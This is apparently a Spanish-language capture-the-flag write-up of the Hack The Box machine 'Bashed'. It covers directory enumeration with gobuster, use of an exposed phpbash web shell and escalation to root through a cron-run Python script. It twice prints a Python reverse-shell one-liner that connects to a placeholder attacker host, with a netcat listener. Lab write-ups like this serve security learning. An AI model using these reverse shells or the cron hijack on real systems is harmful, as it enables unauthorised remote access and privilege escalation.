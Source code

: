 # Bashed

<h1 align="center">
  <br>
  <img src="images/bashed.png" alt="Bashed">
  <br>
</h1>

***
**Machine IP**: ## 10.10.10.68

**DATE**  : 13/06/2021
***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

![](images/nmap.png)

Como vemos solo el puerto 80 está abierto, así que investigaremos en la web para ver si encontramos algo interesante

![](images/web.png)

![](images/phpbash.png)

Como vemos es un forntend normal,pero el nombre `php bash` es algo sospechoso  al parecer no muestra directorios, por eso le hacemos un `brute force` para enumerar los directorios con `gobuster`.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 200                                                               1 ⨯ 2 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/13 03:44:34 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]   
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]   
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

Como vemos nos arroja muchos directorios, examinando cada uno de ellos pude encontrar algo interesante en /dev, dos archivos con el nombre de la pagina en si phpbash

![](images/indexweb.png)


Al abrir el segundo archivo nos carga una shell con el usuario `www-data` , buscamos el archivo user.txt con el siguiente comando

```bash
find / -type f -name "user.txt" 2>/dev/null
```

y bingo, lo encontramos, ahora a tratar de obtener una shell interactiva para poner comandos basicos.

![](images/wwwdata.png)
![](images/usertxt.png)

Primero intentaremos ver si hay algunos binarios con permisos `SUID` para ejecutarlos con permisos root, para eso usamos en comando:

```bash
sudo -l
```

![](images/sudol.png)

Vemos que el usuario `Scriptmanager` puede ejecutar cualquier comando en su sesion, entonces vamos a invocar una shell en nuestra maquina con `netcat`, por el lado de nuestra maquina usariamos el comando 

```bash
nc -nlvp 4448
```

Y por el lado de la phpbash, ejecutamos el siguiente comando para establecer una `shell reversa` con python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("nuestraip",4448));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
```

Y así quedaria nuestra shell, luego nos logeamos como `scriptmanager` con una shell bash con el comando

```bash
sudo -u scriptmanager /bin/bash
```

![](images/accesscript.png)

Luego hacemos el tratamiento de la tty para que nuestra shell sea interactiva con los siguientes comandos

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen-256color 
\[Ctrl Z\] 
stty raw -echo 
fg 
\[INTRO\] 
export TERM=screen
```

## Escalamiento de privilegios a root

Haremos un ls al directorio raiz y encontramos un directorio llamado scripts con solo permiso para scriptmanager, entramos para ver que archivos o directorios interesantes tiene.

![](images/privilegesscript.png)

Como vemos hay un archivo `test.py` que pertenece al nuestro usuario y un txt que pertenece a root , cuando nos encontramos con estas situaciones, debemos considerar que una opción es que hay tareas `cron` o automáticas que se realizan cada cierto tiempo, por eso en esta caso el script está siendo ejecutado como root, ya que el archivo que está escribiendo es propiedad de `root`, también al revisar que la fecha de creación del archivo va cambiando, podemos afirmar que cada minuto se actualiza el `test.txt`.

Entonces tenemos que buscar que el archivo test.py contenga código malicioso para que cuando se ejecute podamos establecer una `shell reversa` en nuestra maquina con root.

Abriendo un servidor web para pasar mi archivo test.py con el siguiente código, que es el mismo que utilizamos para invocar la shell reversa, pero sin las comillas y el python -c , ya que todo irá dentro del archivo.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("tuip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Luego de descargar nuestro archivo, pondremos en escucha nuestra máquina con el puerto al cual asignamos en el `test.py` y obtendremos la shell como `root`.

![](images/roottxt.png)

!Bingo, obtenemos sesión como `root` y podemos leer el `root.txt`

Gracias por leer.

